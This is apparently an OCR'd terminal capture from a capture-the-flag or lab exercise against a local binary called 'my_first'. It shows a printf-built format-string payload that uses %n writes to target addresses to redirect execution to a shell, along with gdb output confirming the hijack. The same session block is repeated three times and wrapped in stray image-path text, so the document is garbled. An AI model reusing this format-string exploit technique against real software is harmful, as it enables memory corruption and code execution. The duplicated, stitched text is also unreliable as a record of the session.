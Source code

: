 Selection: 
Enter first number: Enter second number: Error details: ����             
sh: 1: Selection:: not found

Program received signal SIGSEGV, Segmentation fault.
0x08c3be89 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����             
sh: 1: Selection:: not found

Program received signal SIGSEGV, Segmentation fault.
0x08c3be89 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����             
sh: 1: Selection:: not found

Program received signal SIGSEGV, Segmentation fault.
0x08c3be89 in ?? ()
(gdb)


If you can see the sh: 1: Selection:: then it means we have accomplished out goal and victory should be closer
